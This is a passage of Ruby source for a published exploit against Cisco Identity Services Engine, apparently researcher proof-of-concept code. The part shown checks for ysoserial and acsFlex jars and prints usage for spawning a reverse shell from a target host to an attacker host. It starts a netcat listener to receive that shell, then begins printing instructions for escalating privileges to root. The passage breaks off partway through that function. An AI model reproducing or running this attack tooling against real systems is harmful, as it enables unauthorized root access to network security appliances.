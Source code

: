 ```ruby
    }
}
=end
require 'tmpdir'
require 'net/http'
require 'uri'
require 'openssl'
require 'base64'
class String
	def black;          "\e[30m#{self}\e[0m" end
	def red;            "\e[31m#{self}\e[0m" end
	def green;          "\e[32m#{self}\e[0m" end
	def brown;          "\e[33m#{self}\e[0m" end
	def blue;           "\e[34m#{self}\e[0m" end
	def magenta;        "\e[35m#{self}\e[0m" end
	def cyan;           "\e[36m#{self}\e[0m" end
	def gray;           "\e[37m#{self}\e[0m" end
	def bg_black;       "\e[40m#{self}\e[0m" end
	def bg_red;         "\e[41m#{self}\e[0m" end
	def bg_green;       "\e[42m#{self}\e[0m" end
	def bg_brown;       "\e[43m#{self}\e[0m" end
	def bg_blue;        "\e[44m#{self}\e[0m" end
	def bg_magenta;     "\e[45m#{self}\e[0m" end
	def bg_cyan;        "\e[46m#{self}\e[0m" end
	def bg_gray;        "\e[47m#{self}\e[0m" end
	def bold;           "\e[1m#{self}\e[22m" end
	def italic;         "\e[3m#{self}\e[23m" end
	def underline;      "\e[4m#{self}\e[24m" end
	def blink;          "\e[5m#{self}\e[25m" end
	def reverse_color;  "\e[7m#{self}\e[27m" end
end
puts ""
puts "Cisco Identity Services Engine (ISE) remote code execution as root".cyan.bold
puts "  Tested on ISE virtual appliance 2.4.0.357".cyan.bold
puts "By:".blue.bold
puts "  Pedro Ribeiro (pedrib@gmail.com) / Agile Information Security".blue.bold
puts "  Dominik Czarnota (dominik.b.czarnota@gmail.com)".blue.bold
puts ""
script_dir = File.expand_path(File.dirname(__FILE__))
ysoserial_jar = File.join(script_dir, 'ysoserial.jar')
acsflex_jar = File.join(script_dir, 'acsFlex.jar')
if (ARGV.length < 3) or not File.exist?(ysoserial_jar) or not File.exist?(acsflex_jar)
	puts "Usage: ./ISEpwn.rb <rhost> <rport> <lhost>".bold
    puts "Spawns a reverse shell from rhost to lhost"
	puts ""
	puts "NOTES:\tysoserial.jar and the included acsFlex.jar must be in this script's directory."
	puts "\tTwo random TCP ports in the range 10000-65535 are used to receive connections from the target."
	puts ""
	exit(-1)
end
# Unfortunately I couldn't find a better way to make this interactive,
# so the user has to copy and paste the python command to write to the shell script
# and execute as sudo.
# Spent hours fighting with Ruby and trying to get this without user interaction,
# hopefully some Ruby God can enlighten me on how to do it properly.
def start_nc_thread(nc_port, jrmp_pid)
  IO.popen("nc -lvkp #{nc_port.to_s} 2>&1").each do |line|
    if line.include?('Connection from')
      Process.kill("TERM", jrmp_pid)
      Process.wait(jrmp_pid)
      puts "[+] Shelly is here! Now to escalate your privileges to root, ".green.bold +
        "copy and paste the following:".green.bold
```